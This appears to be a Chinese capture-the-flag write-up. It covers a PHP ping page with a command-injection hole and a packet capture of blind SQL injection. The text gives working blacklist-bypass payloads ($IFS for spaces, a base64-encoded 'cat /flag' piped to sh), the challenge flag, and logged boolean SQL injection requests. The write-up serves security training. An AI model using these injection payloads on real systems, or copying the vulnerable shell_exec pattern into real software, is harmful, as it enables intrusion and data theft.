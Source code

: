 ```php
<?php
error_reporting(0);
highlight_file(__file__);
$ip = $_GET['ip'];
if (isset($ip)) {
  if(preg_match("/(;|`| |&|cp|mv|cat|tail|more|rev|tac|\*|\{)/i", $ip)){
      die("hack");
  }else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
      die("no!>");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  var_dump($a);
}
?>
```
想办法绕吧
```
?ip=|ls
有效, $IFS和$IFS$9来绕过空格过滤
?ip=|ls$IFS/
找到了flag, 
    payload：?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php
    分号不行，转用base64绕过吧。
?ip=|echo$IFS$9Y2F0IC9mbGFn|base64$IFS$9-d|sh
```


`xmctf{php_is_verty_ezzzzzzz}`


发现{ } < > %09都被ban了，但是可以使用$IFS和$IFS$9来绕过空格过滤
TODO global
%3b==; 在后台GET获取时会直接转成;, 不能这样绕过

[命令执行的绕过技巧](https://www.dazhuanlan.com/2019/10/05/5d97c963e2513/)

## 流量分析 

sql盲注。从这里开始

```
152493  2017-11-15 17:17:27.247019  192.168.173.1   192.168.173.134 HTTP    329 GET /index.php?id=1%27and%20(select%20ascii(substr((select%20skyflag_is_here2333%20from%20flag%20limit%200,1),1,1)))=33%23 HTTP/1.1 
...

153173  2017-11-15 17:17:27.526797  192.168.173.1   192.168.173.134 HTTP    330 GET /index.php?id=1%27and%20(select%20ascii(substr((select%20skyflag_is_here2333%20from%20flag%20limit%200,1),1,1)))=101%23 HTTP/1.1 
153183  2017-11-15 17:17:27.530679  192.168.173.1   192.168.173.134 HTTP    330 GET /index.php?id=1%27and%20(select%20ascii(substr((select%20skyflag_is_here2333%20from%20flag%20limit%200,1),1,1)))=120%23 HTTP/1.1 
这里120成功了才会进行一下一项注入，ascii码为120。
153193  2017-11-15 17:17:27.536240  192.168.173.1   192.168.173.134 HTTP    329 GET /index.php?id=1%27and%20(select%20ascii(substr((select%20skyflag_is_here2333%20from%20flag%20limit%200,1),2,1)))=33%23 HTTP/1.1 
153203  2017-11-15 17:17:27.540769  192.168.173.1   192.168.173.134 HTTP    329 GET /index.php?id=1%27and%20(select%20ascii(substr((select%20skyflag_is_here2333%20from%20flag%20limit%200,1),2,1)))=34%23 HTTP/1.1 
153213  2017-11-15 17:17:27.545229  192.168.173.1   192.168.173.134 HTTP    329 GET /index.php?id=1%27and%20(select%20ascii(substr((select%20skyflag_is_here2333%20from%20flag%20limit%200,1),2,1)))=35%23 HTTP/1.1 
153223  2017-11-15 17:17:27.559831  192.168.173.1   192.168.173.134 HTTP    329 GET /index.php?id=1%27and%20(select%20ascii(substr((select%20skyflag_is_here2333%20from%20flag%20limit%200,1),2,1)))=36%23 HTTP/1.1 
```